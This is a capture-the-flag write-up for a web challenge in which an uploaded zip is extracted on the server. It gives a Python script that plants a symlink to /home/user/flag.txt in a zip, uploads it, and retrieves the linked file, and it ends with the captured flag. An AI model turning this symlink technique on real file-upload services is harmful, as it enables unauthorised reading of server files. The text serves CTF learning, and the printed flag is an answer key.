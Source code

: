 ```yaml
---
ai_date: 2025-04-27 05:14:15
ai_summary: Solved by creating a symlink in a zip file pointing to the flag file, exploiting path traversal.
ai_tags:
  - path
  - symlink
  - lfi
created: 2024-08-31T13:59
points: 50
solves: 173
updated: 2025-07-14T09:46
---
```


It's a simple symlink zip challenge.

We include a symlink that upon extraction will point to `/home/user/flag.txt` allowing us to read the flag easily.

## solve

```python
import re
import io
import zipfile
import requests

target = 'https://zipzone-web.challs.csc.tf'


def add_symlink_to_zip(zip_file, symlink_name, target):
    zip_info = zipfile.ZipInfo(symlink_name)
    zip_info.create_system = 3
    zip_info.external_attr = 0o120777 << 16
    zip_file.writestr(zip_info, target)


zip_buffer = io.BytesIO()

with zipfile.ZipFile(zip_buffer, 'w') as zipf:
    add_symlink_to_zip(zipf, 'flag.txt', '/home/user/flag.txt')
zip_buffer.seek(0)
r = requests.post(target, files={'file': ('file.zip', zip_buffer)})
print(requests.get(target+re.search(r'Your file is at <a href="(/files/[^"]+)">', r.text).group(1)+"/flag.txt").text)
```

```flag
CSCTF{5yml1nk5_4r3_w31rd}
```